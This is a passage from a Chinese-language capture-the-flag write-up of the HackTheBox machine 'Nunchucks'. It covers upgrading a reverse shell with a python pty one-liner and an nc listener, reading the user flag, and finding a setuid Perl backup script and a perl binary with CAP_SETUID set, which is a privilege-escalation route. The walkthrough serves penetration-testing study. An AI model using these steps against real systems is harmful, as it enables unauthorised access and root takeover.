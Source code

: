 ```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
david@nunchucks:/var/www/store.nunchucks$ ^Z                
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/nunchucks]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
david@nunchucks:/var/www/store.nunchucks$
```

# 用户标志

排序后，让我们得到用户标志:

```
david@nunchucks:/var/www/store.nunchucks$ cat /home/david/user.txt 
<HIDDEN>
```

经过一些枚举之后，我在/opt 中找到了一个 Perl 脚本:

```
david@nunchucks:/var/www/store.nunchucks$ ls -lsa /opt
4 -rwxr-xr-x  1 root root  838 Sep  1 12:53 backup.pl
4 drwxr-xr-x  2 root root 4096 Oct 28 17:03 web_backups
```

# Setuid 漏洞

查看脚本，第一部分有 setuid(0):

```
david@nunchucks:/var/www/store.nunchucks$ cat /opt/backup.pl 
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0);
```

脚本的其余部分是获取/var/www 的内容并将其备份到/tmp，然后将其移动到/opt。有趣的部分是开始时的 setuid 命令。在之前的名为 [Wonderland](https://pencer.io/ctf/ctf-thm-wonderland/#root-flag) 的 TryHackMe 盒子上，我使用了同样的功能。GTFOBins 的文章[在这里](https://gtfobins.github.io/gtfobins/perl/#capabilities)解释了我们如何利用这一点:

```
If the binary has the Linux CAP_SETUID capability set or it is executed by another
binary with the capability set, it can be used as a backdoor to maintain privileged
access by manipulating its own process UID.
```

如果我们检查 perl 二进制文件，我们会看到它设置了 CAP_SETUID:

```
david@nunchucks:/var/www/store.nunchucks$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```
